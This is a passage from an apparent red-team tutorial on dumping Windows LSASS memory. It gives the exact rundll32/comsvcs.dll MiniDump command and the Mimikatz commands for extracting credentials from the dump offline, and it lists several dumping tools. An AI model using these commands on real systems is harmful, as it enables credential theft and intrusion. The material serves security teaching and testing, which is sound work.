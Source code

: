 3) [DumpType](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/ne-minidumpapiset-minidump_type) - Specify the dump type in our case we will use full

We can follow the below mentioned step to dump the LSASS process memory using COMSVCS.dll:

1) Start PowerShell / CMD with Administrators privileges.

2) Find the process id of the LSASS process.

3) Use rundll32 to execute COMSVCS.dll file

```
Get-Process -Name LSASS

rundll32.exe comsvcs.dll, MiniDump 608 C:\Users\student66\Desktop\lsass.dmp full

```

![](https://static.wixstatic.com/media/8b80b6_153581ca51f74b6e902c7898aab7cf9c~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

LSASS Memory Dump using COMSVCS.dll

Note: We can find more details about this technique on [Modexp blog](https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/).

**Using WindowsAPIs / Syscalls**

We can create our custom tool/script that will leverage WindowsAPIs or Syscalls for dumping the process memory. There are multiple such tools that are already present online such as mentioned below. This will be an exercise for the readers to use different tools for dumping the LSASS process memory using custom tool.

1) [Minidump](https://github.com/3xpl01tc0d3r/Minidump)

2) [SharpDump](https://github.com/GhostPack/SharpDump)

3) [SharpMiniDump](https://github.com/b4rtik/SharpMiniDump)

4) [ATPMiniDump](https://github.com/b4rtik/ATPMiniDump)

5) [Dumpert](https://github.com/outflanknl/Dumpert)

6) [Out-Minidump.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)

### **Extract Credentials Offline (On the attacker machine instead of the target machine)**

We can use tools such as [Mimikatz](https://github.com/gentilkiwi/mimikatz) and [Pypykatz](https://github.com/skelsec/pypykatz) to parse the dump file offline (On the attacker machine instead of the target machine) and extract the credentials.

**Using Mimikatz**

We can use the below mentioned [Mimikatz](https://github.com/gentilkiwi/mimikatz) commands to parse the minidump file and extract the credentials.

```
privilege::debug
sekurlsa::minidump C:\Users\student66\Desktop\lsass.dmp
sekurlsa::ekeys

```

